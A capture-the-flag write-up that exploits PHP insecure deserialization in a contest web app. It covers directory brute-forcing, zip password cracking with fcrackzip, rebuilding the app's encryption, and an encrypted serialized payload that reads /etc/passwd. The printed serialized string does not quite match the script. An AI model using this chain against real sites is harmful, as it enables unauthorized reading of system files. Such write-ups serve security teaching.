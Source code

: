 The challenge description:

    "title": "Translator"
    "level": 2
    "description": "The only way to patch a vulnerability is by exposing it first so, Will you can Translator ?."
    "points": 600
    
  I went to [the website](http://35.222.121.58/Translator/), made directory brute force scan, Checked the source code.. nothing seems to be important..
  
  I checked the request and response, but still nothing important
  
  I returned to see what the directory brute force found and it got two files that shined with some hope to find something important
  
  ![image 1](https://imgur.com/uDx6SiR.png)

  
  Both directories gave 403 unauthorized response
  
  At least maybe another brute force on them could reveal something.. and yes it did
  
  We found a zip file inside backup directory
  
  ![image 2](https://imgur.com/XBev9nz.png)

  
  Downloaded the file and tried to unzip it but it requires password, peace of cake
  
  Running a small program to brute force the password was enough
  
  ```fcrackzip -v -u -D -p backup.zip rockyou.txt```
  
  ![image 3](https://imgur.com/PtpMSmw.png)
  
  The password: ```kaylaanne```

  
  Unzipped the file and it contained the source code of the index.php page

```
<?php

function encryptString($plaintext, $password) {
//This is s3cr3t
}


function decryptString($ciphertext, $password) {
    $ciphertext = base64_decode($ciphertext);
    if (!hash_equals(hash_hmac('sha256', substr($ciphertext, 48).substr($ciphertext, 0, 16), hash('sha256', $password, true), true), substr($ciphertext, 16, 32))) return null;
    return openssl_decrypt(substr($ciphertext, 48), "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, substr($ciphertext, 0, 16));
}

//$EncString = encryptString("aaaaaaaaaaaaaaaaaaaaa", "vmUeu7D9bzE5JmNE"); output:SElIT1dBUkVZT1VCUk8hIdk8ZHn/lvhO9Vammhqvg8N6OlV2KOX3uRiQ7gsn8ZXuvE4UUPOK9Q4ZhufvCiyXhAIdJxY+22Rt5AgkVy0CDcI=

class ReadListLogs
{
        private $FileName = "/var/log/httpd/access_log";
        private $RowNumber = 1;

    public function __construct()
    {
      echo "__construct";
      $this->ReadSave($this->FileName, $this->RowNumber);
    }

    public function __wakeup()
    {
      $this->ReadSave($this->FileName, $this->RowNumber);
    }

    function ReadSave($FileName,$RowNumber)
        {
        $this->FileName = $FileName;
        $this->RowNumber = $RowNumber;
        $array = explode("\n", file_get_contents($FileName));
        $reversed = array_reverse($array);
        $File_Contnet = $reversed[$RowNumber];
              $stringxx = bin2hex(random_bytes(18));
        file_put_contents(__DIR__.'/logs/'.$stringxx.".txt", $File_Contnet);
            echo "End $stringxx";
        }
}



$data = json_decode(file_get_contents('php://input'));
$DecryptVal =  strval(decryptString($data->user,"vmUeu7D9bzE5JmNE"));
unserialize($DecryptVal);

?>
```
  Taking a look at the file there's at first
1. Unreaveled encryption function that takes plain text and key
2. Revealed decrypting function that takes cipher text and key
3. A sample of the encrypting
  After them there's a class which contains:
1. Two variables $FileName and $RowNumber
2. __construct and __wakeup php magic methods, these are method that run without calling them when some action happens you can read about them ![here](https://www.php.net/manual/en/language.oop5.magic.php)
3. A function to read files and store the output in file with random name in logs directory
4. Echoes the file name
And the last portion of the code does the following:
1. Gets the data from the request
2. Decode the json formatted data
3. Store the data to variable named $data
4. Decrypting the parameter user in variable data with the decrypting function
5. Storing the decrypted cipher to a variable named $DecryptVal
6. Unserializing $DecryptVal

  It's clear since the code has magic methods and unserializing user data that it'll be php insecure deserialization ( aka php object injection )

  Ok let's take it step by step

  ###1. serializing
  
  Since the data is unserialized we need to supply serialize 
  
  I made a small php script to serialize the data and make object of the same class with the same variables but changing thier values
```
<?php
class ReadListLogs
{
        public function __construct()
        {
                $this->filename="/etc/passwd";
                $this->RowNumber = 10;
        }
}
$obj = new ReadListLogs();
echo serialize($obj);
echo "\n";
?>
```
  ![image 4](https://imgur.com/TiOTXI1.png)
  
  ```O:12:"O:12:"ReadListLogs":2:{s:8:"FileName";s:11:"/etc/passwd";s:9:"RowNumber";i:1;}```
  
  And we got serialized data..


  ###2. encrypting
  
  Here was a great problem for me, I thought at first it depended on cryptography, but it seemed at last it's OSINT
  
  I searched for a long time for the algorithm until I finally found it [here](https://stackoverflow.com/questions/3422759/php-aes-encrypt-decrypt/56856924#answer-62175221)
  
  Ok now I have the encryption algorithm

```
function encryptString($plaintext, $password) {
    $iv = openssl_random_pseudo_bytes(16);
    $ciphertext = openssl_encrypt($plaintext, "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, $iv);
    $hmac = hash_hmac('sha256', $ciphertext . $iv, hash('sha256', $password, true), true);
    return base64_encode($iv.$hmac.$ciphertext);
}
```

  I modified it a bit so I can use it in a local web server
```
<?php

$password="vmUeu7D9bzE5JmNE";
$data=json_decode(file_get_contents('php://input'));
$plaintext=$data->user;

function encryptString($plaintext, $password) {
    $iv = openssl_random_pseudo_bytes(16);
    $ciphertext = openssl_encrypt($plaintext, "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, $iv);
    $hmac = hash_hmac('sha256', $ciphertext . $iv, hash('sha256', $password, true), true);
    return base64_encode($iv.$hmac.$ciphertext);
}

echo encryptString($plaintext,$password);

?>
```
  ![image 5](https://imgur.com/f2fU0IL.png)

  Also try to decrypt it locally with some reflective data added

  ![image 6](https://imgur.com/tr3ZaEg.png)

  Encrypting done



  ###3. injecting

  The encrypted serialized payload:

  ```NB8zli9U94QIB9lOosT0vaPVSakMB8vc7QTXEmJ4e9x9g4ah84ImLkFSdW1zHba5EEQvLzTNYXHkQocwb7ejsTTnEOU5maOkPW2fnMz6o2LPQZrnxe3rhh5A8Wh2g6pwqC6Nq7ZODfPPdMmfaTVMVh+iklUFeteJL9VOW27yLik=```

  Injecting it into the challenge
  
  ![image 7](https://imgur.com/6y5ikh0.png)

  We got our lucky number for the file: 31771b107da808662fa1

  ![image 8](https://imgur.com/lhpz84I.png)

  Going to [the file](http://35.222.121.58/Translator/logs/31771b107da808662fa1.txt)

  ![https://imgur.com/beS5w18.png](https://imgur.com/beS5w18.png)

  And we got the flag: ```#ASCWG{php_1$_R3a11y_C0Ol_1$_not_1t_?x?:P_1xcxz}```


  Big credits to my teammate Abanob Medhat who participated with me in solving this challenge
